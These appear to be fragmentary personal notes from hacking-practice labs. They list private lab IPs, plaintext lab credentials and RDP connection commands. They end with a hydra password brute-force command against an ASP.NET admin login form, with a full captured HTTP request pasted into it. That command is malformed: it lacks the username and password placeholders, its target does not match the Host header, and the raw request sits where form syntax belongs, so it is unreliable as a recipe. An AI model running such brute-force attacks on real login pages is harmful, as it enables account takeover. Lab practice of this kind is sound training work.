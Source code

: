 IP Address: **10.10.49.23**

Username: **cmnatic**

Password: **yararules!**

SSH Port: **22**

`rdesktop -u username -f IP`

xfreerdp
best rdp soffware


xfreerdp /u:Analysis /p:Tryhackme123! /v:10.10.140.138 
Username: Administrator

Password: BHN2UVw0Q
xfreerdp /u:Administrator /p:BHN2UVw0Q /v:10.10.214.145



http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f

hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 
10.10.214.145 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.180.60
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 754
Origin: http://10.10.180.60
DNT: 1
Connection: close
Referer: http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f
Upgrade-Insecure-Requests: 1

__VIEWSTATE=E5YPEg0DkjC%2B5ayJFm%2FBcd0cqk4g9KD9iZ0vHNNYHDQcaV2PMJz1s05zinB94MMBUS0qRC1pXgEuGVGqGPjaR6%2FMYnR52S9HjZ8n7lAHuT0%2BABYffLk5r%2FqXO6Jdtr7Kr09CFZV5qjTctiVb%2FgGqIVb6aIeeloG093tnWWsiNfd97M8wctRqGPyLXbFGqpwZcJT8fjGomlzV9ZlfHOED40TURbh0NCvPJG2zpb37n8wcXGrBJPc5nZLI5PI9ayl3WT%2B%2FUk5fKv7A9kvT4A8rUxCAID9QPPcmlozPwntjdbXy2vjWiD4jgrBUOvnarg%2FW%2BH9vsQTtUWrJf2tfDO5BBBa9xP4O6yY4E0tWbBfpS96sLN8q&__EVENTVALIDATION=ePsk74eOlQvDKNJ5KrhTGuoeZ0FPm2aD4QMx7BXsr22%2FHnU%2FBTCT2wv2oUo7edqq2tZd1j%2FMyMEyZo1FhKVpCxq%2BEWHipYNWVlCq7QaIBP1UFy8yKa27j%2FGRIB0arrkjRZyKgZd4vmXSoc498hBOfrMjfu1w2yomnnC6YuOGWb5Di2GB&ctl00%24MainContent%24LoginUser%24UserName=Admin&ctl00%24MainContent%24LoginUser%24Password=www&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in"